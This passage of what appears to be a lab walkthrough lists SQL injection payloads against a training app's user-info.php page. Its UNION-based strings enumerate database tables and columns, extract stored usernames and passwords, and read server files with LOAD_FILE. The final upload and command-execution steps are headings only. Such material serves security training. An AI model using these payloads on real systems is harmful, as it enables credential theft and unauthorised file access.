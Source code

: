 ## 7. Attempt to determine table(s) names

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,table_schema AS username,table_name AS password,null from INFORMATION_SCHEMA.TABLES--
```

## 8. Attempt to determine column(s) names

```SQL
Technique: Direct Injection
Recon: Extract table columns from database using a single field
Page: user-info.php
Field: Username
Value: ' union select null,concat_ws('.', table_schema, table_name, column_name) AS username,null,null from INFORMATION_SCHEMA.COLUMNS--
```

## 9. Attempt to extract data

```SQL
Technique: Direct Injection
Page: user-info.php
Field: Username
Value: ' union select null, owasp10.accounts.username AS username, owasp10.accounts.password AS password, null from owasp10.accounts --
```

## 10. Attempt to read files from server

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (relative path):
' union select null, LOAD_FILE('../README') AS username, null, null--

Value (absolute path):
' union select null, LOAD_FILE('..\\..\\..\\..\\WINDOWS\\system32\\drivers\\etc\\hosts') AS username, null, null--
' union select null, LOAD_FILE('..\\..\\..\\..\\WINDOWS\\inf\\cpu.inf') AS username, null, null--
```

## 11. Attempt to upload files to server

## 12. Attempt to execute commands. This is easier on SQL Server 2000 and 2005. MySQL has limited system command abilities. SQL Server 2008 disables system commands by default and requires them to be enabled.
